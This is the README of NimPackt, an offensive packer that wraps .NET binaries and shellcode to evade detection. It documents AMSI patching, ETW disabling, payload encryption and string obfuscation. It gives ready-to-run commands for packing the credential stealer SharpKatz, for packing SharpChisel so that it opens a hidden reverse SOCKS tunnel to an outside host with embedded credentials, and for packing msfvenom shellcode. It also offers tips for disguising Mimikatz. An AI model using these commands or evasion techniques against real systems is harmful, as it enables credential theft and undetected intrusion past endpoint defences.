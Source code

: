 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables and raw shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect or reverse engineer. Currently, it has the following features.

- Patching the Anti-Malware Scan Interface (AMSI)
- Disabling Event Tracing for Windows (ETW)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. You should replace strings for, as well as obfuscate, sensitive binaries (like Mimikatz) to avoid fingerprinting.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to remove userland hooks (until Project5 is supported) or even launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse binascii
nimble install winim strenc nimcrypto base64
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim strenc nimcrypto base64
pip3 install pycryptodome argparse binascii
```

## Usage

```
usage: NimPackt.py [-h] -i INPUTFILE [-a [ARGUMENTS]] [-e EXECUTIONMODE] [-32] [-H] [-na] [-ne] [-v] [-V]

required arguments:
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

optional arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" (default), "shinject", "shinject-remote" (TODO)
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```
# Pack SharpKatz to accept commands at runtime, patch AMSI and disable ETW while printing verbose messages on runtime
python3 ./NimPackt.py -v -i bins/SharpKatz-x64.exe

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -H -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to execute in the local thread, hiding the Nim binary window
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -a "Hello world" -H
```

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed assembly when `execute-assembly` mode is used. This probably relates to C# compiling options, need to investigate this further.

## Wishlist

- Provide option to deploy `Project5` to unhook API calls before execution
- Provide option to pack as dll library
- A CobaltStrike plugin 🤗